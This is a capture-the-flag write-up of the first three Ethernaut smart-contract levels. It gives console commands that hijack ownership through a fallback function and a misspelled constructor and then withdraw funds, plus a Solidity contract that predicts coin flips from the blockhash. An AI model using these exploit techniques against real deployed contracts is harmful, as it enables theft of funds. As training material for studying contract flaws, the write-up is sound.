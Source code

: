  # ethernaut solutions

## 1. Fallback
From looking at the contract given to us in the first level we see that the final function ```receive()``` that is ```payable``` that is a fallback function that can be called to manipulate us to become the owner of the contract to withdraw all of the funds currently held in it.

We notice that we must first contribute some amount in order for the ```receive()``` function to give us the owner status we need to call ```withdraw()``` then we can drain the contract.

This can be done by running these three commands in our browser's console:
```
await contract.contribute({value: 1})
await contract.sendTransaction({value: 1})
await contract.withdraw()
```
## 2. Fallout
Right away you can notice that the constructor is misspelled allowing any user to go in and calling ```Fal1out()``` which will give them ownership of the contract.

The following commands in the browser console will give you ownership of the contract:
```
await contract.owner() // shows that the owner of the contract currently is a NULL address
await contract.Fal1out({value: 1})
await contract.owner() // after the above command we now see that our address is the owner
await contract.collectAllocations()
```
## 3. Coinflip
Ok this was a little bit more difficult from the previous two since now we need to write code. I won't lie either I looked up some hints online to give me some type of idea how to go about this and it was much simpler once i read them. We need to import the CoinFlip contract given to us into a new solidity file so that it can be called at a later point after we submit our guess to the main ```flip()``` function in it.

Below is my contract I wrote and deployed on Rinkeby that ended up working:
```// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "./CoinFlip.sol";
import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v2.5.0/contracts/math/SafeMath.sol";

contract CoinFlipHack {
  CoinFlip target = CoinFlip(Instance ID);
  using SafeMath for uint256;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;


  function hackFlip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      target.flip(true);
    } else {
      target.flip(false);
    }
  }
}
```



